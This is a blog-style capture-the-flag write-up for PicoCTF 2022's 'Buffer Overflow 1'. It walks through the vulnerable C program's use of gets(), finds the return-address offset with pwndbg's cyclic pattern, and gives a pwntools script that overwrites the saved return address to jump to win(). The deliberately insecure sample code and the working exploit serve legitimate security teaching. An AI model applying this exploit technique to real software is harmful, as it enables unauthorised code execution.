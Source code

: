 ```yaml
---

title: "Buffer Overflow 1"
date: 2023-08-22T19:48:58+08:00
author: John Wu
summary: "PicoCTF 2022's buffer overflow 1 writeup"
tags: ["CTFs","guides","tech"]
ShowToc: true
draft: false

---
```


This was a pretty beginner challenge for pwn that took me 2 days to figure out :). Fun times.
Going through multiple writeups and documentation to find how to do anything with binary exploitation tools is impossible.
So, here is a condensed version of what I've learned in the hours I spent on this problem.
All it takes is a little knowledge in reading x86, C, python, CPU registers, and some basic stack memory knowledge.

## Given Stuff

Problem:

Control the return address. Additional details will be available after launching your challenge instance.

Hints:
1. Make sure you consider big Endian vs small Endian.
2. Changing the address of the return pointer can call different functions.


```c
// vuln.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFSIZE 32
#define FLAGSIZE 64

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

`vuln`

## Tools
- GDB/pwndbg
- python3
- pwntools
- System: Linux 6.4.11-arch2-1 #1 SMP PREEMPT_DYNAMIC x86_64 GNU/Linux

## Analysis
Make the `vuln` file executable first: `chmod +x vuln`.
Open the project in GDB for analyzing: `gdb vuln`.
From the source code, we see that there is a function `win` that is never called by `main` or `vuln`.
However, because it is still in the code and for the sake of the challenge, the program will still load `win` onto the stack.
```c
void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}
```

So, find the location of `win`.

```
pwndbg> info functions win
All functions matching regular expression "win":

Non-debugging symbols:
0x080491f6  win
pwndbg>
```

So `win` is located at 0x080491f6, and since this is a buffer overflow problem, we just have to set $eip to 0x080491f6.

The vulnerability in the code is in the function `vuln`, because of the use of `gets()`.
So lets find out the buffer size in order to overflow the stack.

```
pwndbg> cyclic 300
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaac
pwndbg> r <<< aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaac
Starting program: /home/hyperboly/Downloads/bufover1/vuln <<< aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaac
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/usr/lib/libthread_db.so.1".
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x6161616c

Program received signal SIGSEGV, Segmentation fault.
0x6161616c in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
───────────────────────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]───────────────────────────────────────────────────────────
*EAX  0x41
*EBX  0x6161616a ('jaaa')
 ECX  0x0
 EDX  0x0
*EDI  0xf7ffcb80 (_rtld_global_ro) ◂— 0x0
*ESI  0x8049350 (__libc_csu_init) ◂— endbr32 
*EBP  0x6161616b ('kaaa')
*ESP  0xffffd4e0 ◂— 0x6161616d ('maaa')
*EIP  0x6161616c ('laaa')
─────────────────────────────────────────────────────────────────────[ DISASM / i386 / set emulate on ]─────────────────────────────────────────────────────────────────────
Invalid address 0x6161616c

pwndbg>
```

`cyclic` from pwntools is available in pwndbg.
It basically creates a recognizable pattern that we can use to find where in the stack a 4 byte pattern exists.

[more resources](https://en.wikipedia.org/wiki/De_Bruijn_sequence), [and more](https://ir0nstone.gitbook.io/notes/types/stack/de-bruijn-sequences)

`r <<< <de-bruijn-sequences>` just means `run` the program, and input the de-bruijn-sequence.
The register $eip is now laaa, so we just have to find the offset of "laaa" to find how many bytes we need to overflow the eip.

The `cyclic -l` or `cyclic --lookup` command in pwndbg helps us locate the offset of a string or hex value.

```
pwndbg> cyclic -l laaa
Finding cyclic pattern of 4 bytes: b'laaa' (hex: 0x6c616161)
Found at offset 44
pwndbg>
```

## Solve

The pattern is at offset 44, so we can just append where `win` is in memory after 44 bytes which we know is at 0x080491f6.
So to put that into a python script with pwntools:
```python
# solve.py
from pwn import *

payload = b"A" * 44 + p32(0x80491f6)
target = remote('saturn.picoctf.net', 61303)

log.info(target.recvline())
target.sendline(payload)
log.info(target.recvall())

target.close()
```

Note that we can't send the raw 0x80491f6 because it's not in little endian, so we have to use the `p32()` function [docs](https://docs.pwntools.com/en/stable/util/packing.html)
We also can't send in the raw "A" because thats also not a byte, so we have to prepend `b""` to it, which in python means "turn it into bytes."

We can check locally by sending this into GDB:

```sh
pwndbg> r <<< $(echo "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xf6\x91\x04\x08")
Starting program: /home/hyperboly/Downloads/bufover1/vuln <<< $(echo "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xf6\x91\x04\x08")
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/usr/lib/libthread_db.so.1".
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{flag}

Program received signal SIGSEGV, Segmentation fault.
```
